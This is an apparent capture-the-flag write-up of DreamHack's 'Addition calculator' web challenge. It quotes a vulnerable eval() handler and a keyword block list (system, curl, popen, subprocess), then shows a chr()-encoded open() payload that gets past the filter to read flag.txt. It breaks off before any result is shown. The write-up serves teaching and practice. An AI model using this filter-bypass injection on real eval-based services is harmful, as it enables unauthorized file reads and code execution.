

# Addition calculator — DreamHack

> **Room / Challenge:** Addition calculator (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** DreamHack
- **Challenge:** Addition calculator (web)
- **Link**: `https://dreamhack.io/wargame/challenges/1021`
- **Level:** `2`
- **Date:** `18-11-2025`

---

## Goal

Examining the filter and craft a payload to get the flag.

## My Solution

The `app.py` logic has a vulnerability function which is the `eval()`:

```python
if filter(formula):
    return render_template("index.html", result="Filtered")
else:
    try:
        formula = eval(formula)
        return render_template("index.html", result=formula)
    except subprocess.CalledProcessError:
        return render_template("index.html", result="Error")
    except:
        return render_template("index.html", result="Error")
```

To run our payload with `eval()` first we need to bypass the `filter()`:

```python
def filter(formula):
    w_list = list(string.ascii_lowercase + string.ascii_uppercase + string.digits)
    w_list.extend([" ", ".", "(", ")", "+"])

    if re.search("(system)|(curl)|(flag)|(subprocess)|(popen)", formula, re.I):
        return True
    for c in formula:
        if c not in w_list:
            return True
```

It just accepts ascii characters (a-z, A-Z) and digits (0-9), also space, ., (, ) +. Banned words: `"(system)|(curl)|(flag)|(subprocess)|(popen)"`. Here we have to get the content of `flag.txt` however flag is banned so we can use the `char()` of Python to replace the `flag.txt`:

```python
f: 102
l: 108
a: 97
g: 103
.: 46
t: 116
x: 120
t: 116
```

These are the ASCII values of `flag.txt` now combined it with `open()` (non-banned command) we have:

```python
open(chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)).read()
```

Submit this payload and get the flag:

